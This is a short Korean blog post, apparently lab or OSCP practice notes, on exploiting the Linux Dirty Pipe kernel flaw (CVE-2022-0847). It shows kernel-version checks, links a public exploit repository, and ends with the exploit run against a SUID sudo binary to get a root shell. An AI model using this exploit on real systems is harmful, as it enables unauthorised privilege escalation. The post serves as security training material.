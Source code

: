 ```yaml
---
layout: post
title: CVE-2022-0847 Dirtypipe 취약점
subtitle: 리눅스 커널 취약점을 이용한 권한상승
category: knowledge
thumbnail-img: /assets/img/knowledge/hazard.jpg
tags: [linux, dirtypipe, kernel, CVE-2022-0847]
author: Hong
---
```


# 커널 버전 확인
아래의 명령어로 리눅스 커널의 버전을 확인한다.
```
cat /etc/issue
Ubuntu 20.04.5 LTS \n \l

uname -r
5.9.0-050900-generic

uname -a
Linux oscp 5.9.0-050900-generic #202010112230 SMP Sun Oct 11 22:34:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
항상 보던것과는 다른 듯한 버전..

취약점을 검색해보면 아래와 같이 dirtypipe 취약점이라는 것을 알게 된다.

[CVE-2022-0847 dirtypipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)

# 취약점 컴파일 후 실행
위의 소스코드는 컴파일을 할 필요가 있다.

이번엔 타겟 머신에 gcc와 git이 있는 것을 활용해서 직접 git clone한 후 컴파일 했다.

```
/tmp/CVE-2022-0847-DirtyPipe-Exploits$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
```
페이로드로 sudo를 실행하는 것만으로 root권한을 획득했다!

커널 버전을 항상 눈여겨 볼 것.